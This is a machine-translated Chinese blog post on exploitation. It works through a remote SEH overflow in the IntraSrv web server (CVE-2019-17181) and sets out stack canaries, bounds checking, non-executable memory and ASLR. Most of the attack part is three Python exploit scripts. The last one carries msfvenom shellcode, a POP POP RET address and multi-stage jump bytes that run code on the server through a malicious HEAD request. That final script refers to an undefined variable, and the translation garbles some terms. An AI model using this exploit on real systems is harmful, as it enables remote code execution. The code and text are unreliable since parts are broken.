








# 多级跳跃 SEH 溢出

> 原文：<https://blog.devgenius.io/seh-overflow-with-multi-staged-jumps-95a0ae9438da?source=collection_archive---------10----------------------->


这篇博文不是原创的。这里检查的所有攻击都直接取自 Fu11pwnops 的 Windows 利用途径系列。它仅仅涵盖了我的经历——在完成本教程的过程中，我学到了什么和困惑了我什么:

[](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/) [## 远程 SEH 溢出与多阶段跳转- CVE-2019-17181 从内部服务

### 向应用程序发送未经验证的恶意 HTTP HEAD 请求会导致基于 SEH 的缓冲区溢出…

fullpwnops.com](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/) 

在向易受攻击的应用程序发送恶意 HEAD 请求触发 SEH 溢出后，此漏洞会弹出一个计算器。

我们的目标应用程序是一个 IntraSRV web 服务器，它在处理 HTTP HEAD 请求时存在缓冲区溢出漏洞。我在 Windows 7 64 位虚拟机上完成了本教程。

您可以在此下载 IntraSRV:

 [## IntraSrv -简单 Web 服务器

### IntraSrv -简单 Web 服务器 intrasrv.zip(存储在 intrasrv.zip - 30，310 中)控制台应用程序(Win/NT/2000/XP/V 原样…

www.leighb.com](http://www.leighb.com/intrasrv.htm) 

让我们从运行 IntraSrv 并将其附加到抗干扰调试器开始:



当进程为红色时，它已连接

接下来，让我们使用 Python 脚本向服务器发送一个恶意负载。当我们启动 IntraSrv 时，它会告诉我们它正在监听哪个端口和 IP 地址。



现在是我们的剧本:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

当我们执行这个脚本时，我们可以看到免疫寄存器被覆盖，我们的 SEH 链被破坏:



处理程序的地址被 41414141 覆盖，414141 是“A”的 ASCII 码。当控制试图跳转到这个地址时，我们得到一个“访问冲突”

重要的是要记住，SEH 链是一个链表。第一个 SEH 条目的地址由“偏移量为 0 的线程信息块”指向(resources.infosecinstitute.com)。列表中的每条记录都包含为处理引发的异常而定义的代码例程的地址。当程序遇到异常时，操作系统“试图将控制传递给位于 SEH 列表中指定地址的代码”。防止基于 SEH 的溢出的常见方法是在代码中不包含任何有效的 POP POP RET 序列。通过在序列中包含一个空字节，可以使这样的序列变得无用。如果没有有效的 POP POP RET 序列，您将无法利用 SEH 溢出。

回到我们的利用。

既然我们已经确认存在漏洞，我们需要计算输入缓冲区的大小。我们可以使用 Metasploit 的 pattern_create 工具来实现这一点。



我使用了 Kali Linux 内置的 Metasploit 框架。

现在，让我们将这个模式发送到缓冲区，而不是我们的随机 A 字符串。



然后我们可以运行！mona findmsp 命令查找循环模式的实例(也称为我们的 Metasploit 模式)。注意:为了能够运行 findmsp 命令，您必须使应用程序崩溃(在本例中为 IntraSrv)。我们可以看到寄存器被我们的循环模式覆盖。



现在我们知道了 SEH 和 NSEH 处理程序的位置，我们可以覆盖它们:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

exploit_payload = "A" * 1553
exploit_payload += "B" * 4
exploit_payload += "C" * 4
exploit_payload += "D" * (2000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

我不完全确定为什么 Fu11pwn 在覆盖了 SEH 和 NSEH 处理程序后，用额外的 439 个“D”字符填充缓冲区…

此时我们要用“！mona seh -n "命令来定位一个 POP POP RET 序列，以逃离 seh 链并获得我们的外壳代码。不幸的是，没有没有空字节的指针。在所有 POP POP RET 小工具中包含空字节是对 SEH 溢出攻击的常见防御。然而，根据 Fullpwnops 的说法，即使使用空字节，攻击有时仍然有效(fu11pwnops.com)。

多阶段 jmp 利用的要点是允许攻击者逃离受限的缓冲区空间，并在堆栈上给攻击者足够的空间来插入恶意外壳代码。后一部分非常重要，因为外壳代码注入很容易占用 300 字节。通常，多阶段跳转的工作方式是让攻击者向前或向后跳转一小段，然后让攻击者向后跳转一大段，这样他/她就(1)脱离了受保护的缓冲区，并且(2)可以执行他/她的外壳代码。

处理同样情况的另一种方法是使用“鸡蛋猎人”egg hunter 是一小段外壳代码，它在内存中搜索一段更大的外壳代码，攻击者将这段代码注入内存中具有更多空间的备用位置(secpod.com)。鸡蛋猎人跳转执行流程到那个位置。攻击者教他们的猎人搜索一个“蛋”，这是一个“由两个“标签”组合而成的 8 字节唯一字符串”(secpod.com)。鸡蛋就放在内存中外壳代码的前面。

读到这里，我立刻想知道为什么我们不直接在缓冲区中注入一个跳转指令来跳转到我们想要执行的外壳代码，而不是使用一个 egg hunter 来找到那个外壳代码。使用 egg hunter 的一个重要原因是，您试图利用的易受攻击的缓冲区/区域不足以容纳您试图注入的外壳代码。在这种情况下，将外壳代码放在内存中有空间的不同部分是有意义的。然而，我没有完全理解为什么你需要搜索内存来找到你的外壳代码。为什么你不知道外壳代码在内存中的什么位置(或者不知道它在哪里)，然后直接跳到那里？

这个问题迫使我回去学习缓冲区溢出保护方法。以下是一些最基本的预防措施:

金丝雀:以谚语“煤矿中的金丝雀”命名，堆栈金丝雀是小整数，在程序开始时随机选择，放在返回指针之前的堆栈上(en.wikipedia.org)。在 EIP 寄存器可以在堆栈上执行返回指令之前，必须检查和验证金丝雀。如果金丝雀被覆盖，“受影响的程序的执行可以被终止”(维基百科)，防止攻击者控制和恶意行为。

加那利有三种常见和不同的实现方式:终结加那利、随机加那利和随机异或加那利。

终结者金丝雀:

终结符加那利是基于这样的观察:大多数缓冲区被以空字节结束的字符串溢出。因此，终结器加那利防止某些函数，如 strcpy()在遇到空字节时返回。如果攻击者使用遇到空字节时不返回的函数，并且如果攻击者将正确的金丝雀值写入正确的内存位置，则可以绕过这种金丝雀，从而通过金丝雀验证。

随机金丝雀:

程序执行时会随机选择一只金丝雀。这里明显的好处是攻击者不知道金丝雀值。随机值取自/dev/urandom 文件，该文件用作伪随机数生成器(access.redhat.com)。

如果攻击者能够以某种方式查看应用程序代码并发现金丝雀的价值，这种金丝雀防御方法就会受到威胁。

随机异或金丝雀:

随机异或金丝雀是“使用部分或全部控制数据(帧指针+返回地址等)进行异或加扰”的随机金丝雀。这种保护金丝雀的方法要求攻击者拥有原始的金丝雀(理论上他/她需要通过信息泄露来获得)用于异或加扰金丝雀的算法，以及用于加扰金丝雀的原始控制数据。出于所有提到的原因，异或金丝雀比终结符或随机金丝雀更难被利用。此外，XOR 加那利提供了一些保护，防止重写控制数据的攻击。由于控制数据用于对金丝雀进行加扰，因此如果控制数据被修改，新的金丝雀将不会与原来的金丝雀值相匹配。

边界检查:

边界检查是另一种旨在抵消缓冲区溢出的措施。这个方法为每个分配的内存块添加了运行时信息，并在运行时检查所有指针。

有两种常见的特定类型的边界检查:

范围检查:检查将要分配给变量的数字是否在该变量所能容纳的范围内。

索引检查:在索引数组的所有表达式中，索引值是“根据数组的边界检查的”(wikipedia.org)。

但是，因为边界检查需要程序检查每个条目是否有效，所以需要处理能力。因此，许多语言，如 C，不包括任何边界检查，程序员可以在有边界检查的语言中禁用边界检查，以优化速度。

标记/不可执行堆栈:

标记是另一种常见的内存利用防御手段，主要涉及将某些内存区域标记为不可执行。这有效地防止了被指定用于存储数据的存储器执行代码。攻击者将无法在不可执行的区域中注入和运行他们的外壳代码，并且将不得不找到一种方法来“从内存中禁用执行保护，或者找到一种方法来将他们的外壳代码有效负载放在不受保护的内存区域中”(wikipedia.org)。这正是我们在本文中要处理的情况，我们实现了一个多阶段跳转，跳出受保护的内存空间，进入我们注入外壳代码的不受保护的区域。

随机化:

与试图将代码与数据分开的标记不同，随机化只是将“随机化”引入程序的存储空间。这种技术将“防止攻击者知道任何代码在哪里”(wikipedia.org)，并使跳转到攻击者注入的外壳代码或构建 ROP 链变得相当困难。地址空间布局随机化(ASLR)展示了使用 egg hunters 查找外壳代码的概念的一个用例，因为您不知道将控制权转移到哪里，并且需要在内存中定位您的外壳代码。



让我们回到多阶段跳转利用。

Fu11pwnops 认为，由于 ASLR 已被禁用，因此不需要鸡蛋猎人来利用此漏洞:


这是最后一个漏洞的样子:

```
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.2.15"
victim_port = 80

# msfvenom -p windows/exec CMD=calc.exe -b "\x00\xff\x0d\x0a" EXITFUNC=thread -f python -v shellcode_calc
shellcode_calc =  ""
shellcode_calc += "\xba\x97\x92\x8c\xa9\xda\xd2\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x2b\xc9\xb1\x31\x31\x57\x13\x83"
shellcode_calc += "\xc7\x04\x03\x57\x98\x70\x79\x55\x4e\xf6"
shellcode_calc += "\x82\xa6\x8e\x97\x0b\x43\xbf\x97\x68\x07"
shellcode_calc += "\xef\x27\xfa\x45\x03\xc3\xae\x7d\x90\xa1"
shellcode_calc += "\x66\x71\x11\x0f\x51\xbc\xa2\x3c\xa1\xdf"
shellcode_calc += "\x20\x3f\xf6\x3f\x19\xf0\x0b\x41\x5e\xed"
shellcode_calc += "\xe6\x13\x37\x79\x54\x84\x3c\x37\x65\x2f"
shellcode_calc += "\x0e\xd9\xed\xcc\xc6\xd8\xdc\x42\x5d\x83"
shellcode_calc += "\xfe\x65\xb2\xbf\xb6\x7d\xd7\xfa\x01\xf5"
shellcode_calc += "\x23\x70\x90\xdf\x7a\x79\x3f\x1e\xb3\x88"
shellcode_calc += "\x41\x66\x73\x73\x34\x9e\x80\x0e\x4f\x65"
shellcode_calc += "\xfb\xd4\xda\x7e\x5b\x9e\x7d\x5b\x5a\x73"
shellcode_calc += "\x1b\x28\x50\x38\x6f\x76\x74\xbf\xbc\x0c"
shellcode_calc += "\x80\x34\x43\xc3\x01\x0e\x60\xc7\x4a\xd4"
shellcode_calc += "\x09\x5e\x36\xbb\x36\x80\x99\x64\x93\xca"
shellcode_calc += "\x37\x70\xae\x90\x5d\x87\x3c\xaf\x13\x87"
shellcode_calc += "\x3e\xb0\x03\xe0\x0f\x3b\xcc\x77\x90\xee"
shellcode_calc += "\xa9\x98\x72\x3b\xc7\x30\x2b\xae\x6a\x5d"
shellcode_calc += "\xcc\x04\xa8\x58\x4f\xad\x50\x9f\x4f\xc4"
shellcode_calc += "\x55\xdb\xd7\x34\x27\x74\xb2\x3a\x94\x75"
shellcode_calc += "\x97\x58\x7b\xe6\x7b\xb1\x1e\x8e\x1e\xcd"

# SEH handler overwritten with - 43336143
# [*] Exact match at offset 1569
# Log data, item 23
# Address=0BADF00D
# Message = SEH record (nseh field) at 0x0018ff78 overwritten with normal pa$

nseh_stage1 = "\x90\x90\xEB\xF6" # JMP back 10 bytes
jmp450_stage2 = "\x90\x90\x90\xE9\x3E\xFE\xFF\xFF" # Have it hit our long jump back 450
seh_handler = pack('<L', 0x004097dd) # our POP POP RETN from intrasrv.exe

# 0x004097dd : pop eax # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [intrasrv.exe]
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\john\Desktop\intrasrv.exe)

exploit_payload = "A" * (1553 - len(shellcode) - 8) + shellcode
exploit_payload += jmp450_stage2
exploit_payload += nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
	print("[*] Watch for a spawned calc")
except:
	print("[!] Exploit failed to send")
```

上述漏洞直接取自 Fu11pwnops 的文章，并使用 msfvenom 生成外壳代码，该代码将在处理 HEAD 请求时弹出一个计算器。

希望这篇文章能让你了解一些防止缓冲区溢出的最基本的保护措施，以及一些我们可以部署来绕过它们的策略(多阶段跳转、鸡蛋猎人等)。